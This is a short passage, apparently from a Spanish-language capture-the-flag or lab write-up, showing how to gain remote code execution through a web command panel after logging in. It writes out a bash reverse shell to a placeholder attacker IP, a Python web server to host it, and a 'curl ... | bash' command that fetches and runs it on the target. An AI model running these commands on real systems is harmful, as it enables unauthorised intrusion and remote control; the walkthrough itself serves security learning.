 ![20231106100958.png](20231106100958.png)

Al loguearnos nos encontramos con un panel donde podemos ejecutar comandos. Vamos a hacerlo como lo hago yo

#### RCE

* Primero, creamos un `ìndex.html` donde estara nuestra revershell

```java
❯ nano index.html
bash -i >& /dev/tcp/[IP-ATTACKER]/4242 0>&1
```

* Segundo, en otra terminal iniciamos un servidor en python3

```
❯ python3 -m http.server 80
```

* Tercero, ejecutamos lo siguiente en el panel donde podemos ejecutar comandos

```java
curl http://[IP-ATTACKER]| bash
```

![20231106101451.png](20231106101451.png)
